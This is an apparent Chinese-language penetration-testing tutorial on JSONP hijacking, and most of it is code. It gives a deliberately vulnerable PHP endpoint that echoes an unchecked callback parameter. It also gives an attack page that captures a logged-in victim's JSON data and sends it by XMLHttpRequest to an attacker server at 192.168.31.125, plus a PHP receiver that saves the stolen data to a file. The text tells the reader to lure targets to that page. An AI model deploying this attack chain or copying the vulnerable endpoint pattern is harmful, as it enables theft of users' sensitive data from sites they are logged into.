

JSON是一种轻量级的数据交换格式，而劫持就是对数据进行窃取（或者应该称为打劫、拦截比较合适。恶意攻击者通过某些特定的手段，将本应该返回给用户的JSON数据进行拦截，转而将数据发送回给恶意攻击者，这就是JSON劫持的大概含义。一般来说进行劫持的JSON数据都是包含敏感信息或者有价值的数据。

攻击方法与csrf类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取json数据，把json数据发送给攻击者。

**1、测试流程与方法**

找到json的类型页面，写好攻击页面，诱导目标访问页面，从而获取数据。

靶机测试

```php
<?php
header('Content-type: application/json');
$callback = $_GET['callback'];
print $callback.'({"id" : "1","name" : "moonsec","email":"moon@moonsec.com"});';
?>
```

**2、测试页面 json.html**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>jsonp劫持</title>
    <script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
</head>
<body>
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="http://www.webtester.com/json.php?callback=jsonp2"></script>
</body>
</html>
```

 

**3、劫持json发送返回数据 json_attack.html**

```php+HTML
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title></title>
		<script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
<script>
function test(data){
    //alert(v.name);
    var xmlhttp = new XMLHttpRequest();
    var url = "http://192.168.31.125/1.php?file=" + JSON.stringify(data);
    xmlhttp.open("GET",url,true);
    xmlhttp.send();
    }
</script>
<script src="http://www.webtester.com/json.php?callback=test"></script>
</head>
	<body>
	</body>
</html>
```

远程接收的1.php

```php
<?php
if($_GET['file']){
	file_put_contents('json.txt',$_GET['file']);
}
?>
```

诱导目标访问带有攻击代码的页面。

当用户访问这个页面的时候就会把数据发送到远程的服务器上的1.PHP 1.php就会把得到的数据生成json.txt 

 